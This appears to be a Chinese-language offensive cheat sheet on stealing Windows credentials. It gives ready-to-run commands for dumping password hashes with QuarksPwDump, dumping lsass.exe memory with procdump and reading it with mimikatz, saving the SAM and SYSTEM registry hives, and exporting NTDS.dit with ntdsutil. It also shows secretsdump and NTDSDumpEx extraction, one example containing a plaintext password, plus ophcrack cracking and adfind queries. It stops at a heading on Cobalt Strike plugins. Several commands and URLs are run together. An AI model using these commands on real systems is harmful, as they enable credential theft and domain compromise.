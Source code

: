 ## 获取windows密码的方法

##### Quarks PwDump

https://github.com/quarkslab/quarkspwdumpQuarksPwDump.exe --dump-hash-local 

// 导出本地hash值QuarksPwDump.exe -dhlQuarksPwDump.exe -dhdc 

// 导出内存中的域控哈希值QuarksPwDump.exe --dump-hash-domain-cached

##### Procdump

https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdumpprocdump64.exe 

-accepteula -ma lsass.exe lsass.dmp

用mimikatz导出lsass.dmp里面的密码和hashsekurlsa::minidump 目录\lsass.dmp 

// 将导出的lsass.dmp载入到mimikatz中sekurlsa::logonpasswords full // 获取密码

##### SAM表导出SAM数据：

reg save HKLM\SYSTEM SYSTEM

reg save HKLM\SAM SAM

##### NTDS.dit获取域控hash手动导出NTDS.dit和System-hive，本地或目标机导hash，域足够大，该文件也会特别大

ntdsutil "ac i ntds" ifm "create full c:\users\tmp" q q

##### NTDSDumpEx提取用户hashhttps://github.com/zcgonvh/NTDSDumpEx/releases

NTDSDumpEx -d ntds.dit -s system -o domain.txtsecretsdump

提取用户hash

##### python secretsdump.py -system SYSTEM -ntds ntds.dit local

python secretsdump.py rabbitmask:1q2w3e4r!@192.168.15.181



##### ophcrack在线破解  https://www.objectif-securite.ch/en/ophcrack2.ophcrack  https://ophcrack.sourceforge.io/  要拿彩虹表爆破。。。https://ophcrack.sourceforge.io/tables.php



##### adfind -h 192.168.221.130 -sc u:test

adfind -h 192.168.221.130 -sc u:test | findstr userWorkstations //非域权限执行需要指定账户密码



## CS插件

下面都是C2的扩展插件，
